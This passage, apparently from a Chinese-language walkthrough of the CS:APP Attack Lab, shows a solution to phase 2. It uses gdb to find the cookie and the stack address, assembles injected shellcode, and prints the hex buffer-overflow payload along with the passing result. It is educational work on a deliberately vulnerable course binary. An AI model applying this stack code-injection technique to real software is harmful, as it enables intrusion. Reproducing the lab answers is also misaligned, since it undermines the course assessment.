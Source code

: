   > **即把栈中存放的地址弹出作为下一条指令的地址。**
  >
  > 利用push和ret就能实现我们的指令转移

- 查看cookie值

~~~bash
(gdb) x 0x6044e4
0x6044e4 <cookie>:      0x59b997fa
~~~

- 第一次ret重新回到getbuf的栈顶执行

~~~bash
(gdb) p $rsp
$1 = (void *) 0x5561dc78
~~~

- 产生字节码文件

~~~bash
gcc -c injectcode.s
objdump -d injectcode.o > injectcode.d
~~~

~~~assembly
phase2ass.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
~~~

- 注入的二进制数据十六进制表示

~~~
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
~~~

#### 结果

~~~bash
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw < phase2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
~~~
